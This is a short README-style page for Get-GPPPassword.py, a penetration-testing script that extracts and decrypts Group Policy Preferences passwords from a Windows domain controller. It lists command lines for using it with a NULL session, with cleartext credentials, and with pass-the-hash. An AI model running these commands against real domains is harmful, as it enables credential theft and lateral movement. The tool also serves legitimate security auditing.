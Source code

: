 - - -
Python script for extracting and decrypting Group Policy Preferences passwords.

### With a NULL session

```python
Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'
```

### With cleartext credentials

```python
Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
```

### pass-the-hash

```python
Get-GPPPassword.py -hashes 'LMhash':'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
```